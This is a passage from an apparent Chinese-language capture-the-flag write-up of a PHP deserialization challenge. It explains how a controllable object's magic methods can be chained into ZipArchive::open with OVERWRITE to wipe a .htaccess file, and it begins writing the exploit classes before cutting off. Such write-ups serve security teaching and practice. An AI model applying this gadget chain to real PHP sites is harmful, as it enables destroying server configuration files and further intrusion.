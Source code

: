 ```php
        if (isset($this->checker)){
            $this->checker->upload_file();
        }
    }
}
```

这里的`$checker`是我们可控的。

```php
class Profile{

    public $username;
    public $password;
    public $admin;

    public function is_admin(){
        $this->username = $_SESSION['username'];
        $this->password = $_SESSION['password'];
        $secret = "********";
        if ($this->username === "admin" && $this->password != "admin"){
            if ($_COOKIE['user'] === md5($secret.$this->username.$this->password)){
                return 1;
            }
        }
        return 0;

    }
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
```

当调用该类中的一个不存在的函数时，将会触发`__call()`魔术方法，可奇怪的是这个类中并没有`open()`函数，考虑到可能内置类的函数。

参考链接：[https://www.php.net/manual/tr/function.ziparchive-open.php](https://www.php.net/manual/tr/function.ziparchive-open.php)



**ZIPARCHIVE::OVERWRITE** ([integer](https://www.php.net/manual/zh/language.types.integer.php))

总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖。

所以我们可以通过设置$filename为`.htaccess`的路径，然后通过这个办法将其覆盖。

```php
<?php
class File
{
    public $filename;
    public $filepath;
    public $checker;
    function __construct()
    {
        $this->checker = new Profile();
    }
    function __destruct()
    {
        if (isset($this->checker)) {
            $this->checker->upload_file();
        }
    }
}
class Profile
{
```